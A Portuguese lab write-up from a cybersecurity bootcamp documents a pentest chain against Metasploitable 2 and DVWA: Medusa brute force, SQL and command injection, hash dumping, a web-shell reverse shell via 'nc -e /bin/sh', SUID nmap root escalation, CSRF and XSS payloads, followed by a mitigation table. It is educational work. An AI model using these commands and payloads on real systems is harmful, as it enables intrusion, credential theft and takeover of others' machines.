# 🔐 Desafio DIO — Ataque de Força Bruta com Medusa e Kali Linux

## 📋 Sobre o Projeto

Projeto prático desenvolvido como parte do bootcamp de Cibersegurança da [DIO](https://www.dio.me/). O objetivo principal consistiu em simular cenários reais de auditoria e ataque de força bruta utilizando o **Kali Linux** e a ferramenta **Medusa**, direcionados ao ambiente vulnerável **Metasploitable 2** e **DVWA** (Damn Vulnerable Web Application) em rede interna controlada.

Indo além do escopo inicial, este laboratório documenta uma cadeia de pentest completa com **todas as evidências práticas validadas em tela**:
- Descoberta e força bruta com **Medusa** (FTP, HTTP e SMB);
- **SQL Injection** e extração de dados;
- **OS Command Injection** (leitura de `/etc/passwd` e credenciais em `config.inc.php`);
- Acesso administrativo ao **MySQL** sem senha e dump de usuários com hashes MD5;
- **File Upload** e **Reverse Shell interativo** via Netcat (`www-data`);
- **Escalação Local de Privilégios para ROOT** através de falha de permissão SUID no Nmap (GTFOBins) e extração irrestrita do `/etc/shadow`;
- **Cross-Site Request Forgery (CSRF)** validado com PoC externa;
- **Reflected XSS** com demonstração de roubo de cookies/sessão (`PHPSESSID`);
- **Stored XSS** com persistência do script malicioso gravado no banco de dados.

> ⚠️ **Aviso Ético e Legal:** Todos os testes descritos neste repositório foram realizados exclusivamente em ambiente de laboratório isolado (rede VirtualBox Host-Only). O uso dessas ferramentas e técnicas em sistemas sem autorização formal é estritamente ilegal.

---

## 📑 Sumário

- [Configuração do Ambiente](#-configuração-do-ambiente)
- [Cenário 1: Força Bruta em FTP com Medusa](#-cenário-1-força-bruta-em-ftp-com-medusa)
- [Cenário 2: Força Bruta no Formulário HTTP (DVWA)](#-cenário-2-força-bruta-no-formulário-http-dvwa)
- [Cenário 3: Password Spraying em SMB](#-cenário-3-password-spraying-em-smb)
- [Cenário 4: SQL Injection no DVWA](#-cenário-4-sql-injection-no-dvwa)
- [Cenário 5: OS Command Injection](#-cenário-5-os-command-injection)
- [Cenário 6: Acesso ao Banco de Dados e Extração de Hashes](#-cenário-6-acesso-ao-banco-de-dados-e-extração-de-hashes)
- [Cenário 7: File Upload & Reverse Shell Interativo](#-cenário-7-file-upload--reverse-shell-interativo)
- [Cenário 8: Escalação Local de Privilégios para ROOT](#-cenário-8-escalação-local-de-privilégios-para-root)
- [Cenário 9: Cross-Site Request Forgery (CSRF)](#-cenário-9-cross-site-request-forgery-csrf)
- [Cenário 10: Reflected XSS (Roubo de Sessão)](#-cenário-10-reflected-xss-roubo-de-sessão)
- [Cenário 11: Stored XSS (Persistência no Banco)](#-cenário-11-stored-xss-persistência-no-banco)
- [Cadeia Completa do Ataque](#-cadeia-completa-do-ataque)
- [Medidas de Mitigação e Defesa](#️-medidas-de-mitigação-e-defesa)
- [Ferramentas Utilizadas](#-ferramentas-utilizadas)
- [Referências](#-referências)

---

## 🛠️ Configuração do Ambiente

### Máquinas Virtuais (VirtualBox)

| Máquina | Sistema Operacional | Endereço IP | Papel |
|---|---|---|---|
| **Atacante** | Kali Linux | 192.168.56.x | Execução de ferramentas e testes |
| **Alvo** | Metasploitable 2 | 192.168.56.101 | Servidor intencionalmente vulnerável (DVWA) |

Ambas as máquinas foram conectadas via adaptador **Host-Only**, garantindo isolamento total da internet e integridade do laboratório.

### Varredura e Enumeração com Nmap

```bash
nmap -sV -Pn 192.168.56.101
```



Principais portas identificadas:
- **Porta 21/TCP:** vsftpd 2.3.4 (FTP)
- **Porta 80/TCP:** Apache 2.2.8 + PHP (Web / DVWA)
- **Porta 139 / 445/TCP:** Samba 3.X (SMB)
- **Porta 3306/TCP:** MySQL 5.0.51a

---

## 🎯 Cenário 1: Força Bruta em FTP com Medusa

Wordlists preparadas na pasta [`wordlists/`](wordlists/):
- **Usuários:** [`wordlists/users.txt`](wordlists/users.txt)
- **Senhas:** [`wordlists/passwords.txt`](wordlists/passwords.txt)

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -t 4
```



**Resultado:** Credencial localizada: `msfadmin` : `msfadmin`. Acesso autenticado com sucesso.

---

## 🎯 Cenário 2: Força Bruta no Formulário HTTP (DVWA)

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M http -m DIR:/dvwa/login.php -t 4
```


**Resultado:** Credencial encontrada: `admin` : `password`.

---

## 🎯 Cenário 3: Password Spraying em SMB

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -p password -M smbnt -t 4
```


---

## 🎯 Cenário 4: SQL Injection no DVWA

No módulo SQL Injection, o parâmetro `id` foi testado contra bypass de autenticação e extração:

```sql
1' OR '1'='1
```


---

## 🎯 Cenário 5: OS Command Injection

Aproveitando o separador pipe (`|`), foram encadeados comandos arbitrários no sistema:

```bash
# 1. Identificar o usuário executor
192.168.56.101 | whoami
```



```bash
# 2. Leitura de contas locais do sistema
192.168.56.101 | cat /etc/passwd
```


```bash
# 3. Leitura do arquivo de configuração da aplicação
192.168.56.101 | cat /var/www/dvwa/config/config.inc.php
```

Credenciais extraídas em texto claro:
```php
$_DVWA[ 'db_server' ]   = 'localhost';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'root';
$_DVWA[ 'db_password' ] = ''; // Senha em branco!
```

---

## 🎯 Cenário 6: Acesso ao Banco de Dados e Extração de Hashes

Com as credenciais `root` sem senha obtidas no `config.inc.php`, acessou-se a base relacional diretamente:

### 1. Enumeração dos Bancos de Dados
```sql
SHOW DATABASES;
```


### 2. Dump de Usuários e Hashes de Senha
```sql
USE dvwa;
SELECT user, password FROM dvwa.users;
```


### 3. Extração para Cracking Offline
Os hashes foram salvos em arquivo dedicado (`hashes.txt`) para processamento via John the Ripper ou Hashcat:



### 4. Análise de Contas com Senhas Nulas


---

## 🎯 Cenário 7: File Upload & Reverse Shell Interativo

1. **Upload de Web Shell:** Foi enviado o script `hack.php` para a raiz do servidor.
2. **Listener Netcat no Kali:**
   ```bash
   nc -lvnp 4444
   ```
3. **Disparo do Reverse Shell via navegador:**
   ```
   http://192.168.56.101/dvwa/hack.php?cmd=nc -e /bin/sh 192.168.56.102 4444
   ```



---

## 👑 Cenário 8: Escalação Local de Privilégios para ROOT

1. **Enumeração SUID:**
   ```bash
   find / -perm -4000 -type f 2>/dev/null
   ```
   

2. **Exploração via Nmap Interativo (GTFOBins):**
   ```bash
   nmap --interactive
   nmap> !sh
   whoami
   root
   ```
   

3. **Comprometimento Total: Dump do `/etc/shadow`:**
   ```bash
   cat /etc/shadow
   ```
   

---

## 🎯 Cenário 9: Cross-Site Request Forgery (CSRF)

O formulário de alteração de senha do DVWA utiliza requisições GET sem validação por tokens anti-CSRF.

### 1. Alteração via Parâmetro na URL
```text
http://192.168.56.101/dvwa/vulnerabilities/csrf/?password_new=hackeado123&password_conf=hackeado123&Change=Change#
```



### 2. Automação via PoC com Servidor Python
Foi criado o arquivo `csrf.html` no Kali Linux e hospedado na porta 8000:

```bash
python3 -m http.server 8000
```



Quando a vítima acessa a página do atacante em outra aba, a tag de imagem oculta força o navegador a alterar a senha silenciosamente no DVWA.

---

## 🎯 Cenário 10: Reflected XSS (Roubo de Sessão)

No módulo Reflected XSS, o parâmetro `name` reflete dados diretamente no HTML sem sanitização.

### 1. Teste de Injeção Básica
```html
<script>alert('XSS Reflected!')</script>
```



### 2. Exposição e Roubo de Sessão (Cookie Hijacking)
```html
<script>alert(document.cookie)</script>
```



O identificador de sessão (`PHPSESSID`) e os parâmetros de segurança foram expostos em tela, demonstrando a vulnerabilidade a sequestro de sessão.

---

## 🎯 Cenário 11: Stored XSS (Persistência no Banco)

No mural de recados (Guestbook), as mensagens são persistidas no banco de dados.

### Injeção Persistente
```html
<script>alert(1)</script>
```



Ao assinar o guestbook com o payload, o código malicioso foi gravado no banco relacional. Cada nova visita à página dispara a execução automática do script no navegador.

---

## 🔗 Cadeia Completa do Ataque

```
[ Nmap Scan ] ──▶ Portas 21, 80, 445 e 3306 expostas
      │
      ├──▶ [ Medusa FTP ] ──▶ msfadmin:msfadmin
      │
      └──▶ [ Medusa HTTP ] ──▶ admin:password (DVWA)
                 │
                 ├──▶ [ Web Vulnerabilities ]
                 │         ├──▶ [ SQL Injection ] ──▶ Extração de dados da aplicação
                 │         ├──▶ [ CSRF ] ──▶ Troca não autorizada de senhas via GET/PoC
                 │         ├──▶ [ XSS Reflected ] ──▶ Exposição de cookies de sessão
                 │         └──▶ [ XSS Stored ] ──▶ Injeção persistente salva no banco
                 │
                 ├──▶ [ Command Injection ] (www-data) ──▶ Leitura config.inc.php ──▶ MySQL root sem senha ──▶ Dump DB
                 │
                 └──▶ [ File Upload + Reverse Shell ] ──▶ Shell interativo Netcat (www-data)
                            │
                            ▼
              [ Enumeração SUID (find) ] ──▶ /usr/bin/nmap identificado
                            │
                            ▼
              [ GTFOBins Nmap Interactive ] ──▶ nmap --interactive ──▶ !sh
                            │
                            ▼
                   👑 ROOT DO SISTEMA 👑
                            │
                            ▼
              [ Dump Completo /etc/shadow ]
```

---

## 🛡️ Medidas de Mitigação e Defesa

| Vetor de Risco | Vulnerabilidade Observada | Recomendação Técnica |
|---|---|---|
| **Autenticação** | Força bruta e credenciais previsíveis | Implementar rate limiting, bloqueio temporário após falhas e MFA |
| **Banco de Dados** | Conta `root` sem senha e privilégios excessivos | Definir senhas complexas, desativar acessos desnecessários e aplicar menor privilégio |
| **Aplicações Web** | SQL Injection | Utilizar Prepared Statements / consultas parametrizadas (PDO, ORM) |
| **Execução de Comandos** | Injeção via shell | Evitar chamadas ao sistema (`exec`, `system`); usar validação estrita por whitelist |
| **Integridade de Requisições** | CSRF | Implementar tokens anti-CSRF aleatórios por formulário e cookies com atributo `SameSite` |
| **Cross-Site Scripting** | XSS Reflected e Stored | Sanitização de dados no backend, codificação HTML no output e uso da flag `HttpOnly` nos cookies |
| **Arquivos e Configurações** | Arquivos legíveis por qualquer usuário | Ajustar permissões (`chmod 600` ou `640`) e separar segredos de código |

---

## 🧰 Ferramentas Utilizadas

- **Kali Linux:** Sistema operacional especializado em testes de segurança.
- **Medusa:** Ferramenta modular e paralela para auditoria de força bruta.
- **Nmap:** Scanner de portas, detecção de versões de serviços e escalação de privilégios SUID.
- **Netcat:** Conexão reversa e controle interativo remoto.
- **Metasploitable 2:** Máquina virtual deliberadamente vulnerável para fins de estudo.
- **DVWA:** Aplicação web para prática de vulnerabilidades OWASP.
- **MySQL Client:** Interface CLI para gerenciamento e auditoria de bases relacionais.
- **Python HTTP Server:** Servidor local para entrega da PoC de CSRF.

---

## 📚 Referências

- [Manual Oficial do Nmap](https://nmap.org/book/)
- [Documentação Oficial do Medusa](http://www.foofus.net/jmk/medusa/medusa.html)
- [OWASP Top 10 Web Application Security Risks](https://owasp.org/www-project-top-ten/)
- [GTFOBins - SUID Nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [Guia Oficial de Segurança do Kali Linux](https://www.kali.org/docs/)
- [Projeto DVWA no GitHub](https://github.com/digininja/DVWA)

---

## 👤 Autor

**th3-fuzzer**  
Bootcamp Cibersegurança — Digital Innovation One (DIO)  
[GitHub](https://github.com/th3-fuzzer)
